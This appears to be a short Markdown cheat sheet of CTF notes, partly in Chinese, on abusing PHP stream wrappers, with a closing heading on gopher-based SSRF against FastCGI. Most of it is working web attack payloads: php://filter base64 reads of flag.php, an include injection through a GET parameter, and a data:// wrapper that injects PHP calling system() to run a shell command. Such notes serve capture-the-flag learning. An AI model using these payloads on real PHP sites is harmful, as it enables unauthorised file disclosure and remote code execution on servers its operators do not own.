 | Protocol      | desc                               | payload                                                                       |
| ------------- | ---------------------------------- | ----------------------------------------------------------------------------- |
| data://       | bypass file_get_contents($text...) | ?text=data://test/plain,welcome&file=php://filter/resource=useless.php        |
| glob://       | 搜索目录                           |                                                                               |
| php://filter/ | 读文件                             | php://filter/convert.base64-encode/resource=flag.php                          |
|               |                                    | `?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php` |
|               |                                    | `?c=include$_GET[1]?>&1=data://text/plains,<?php system("cat flag.php");?>")` |
| gopher://     | ssrf 攻击常用                      |



# gopher 攻击

CTFHUB FastCGI协议
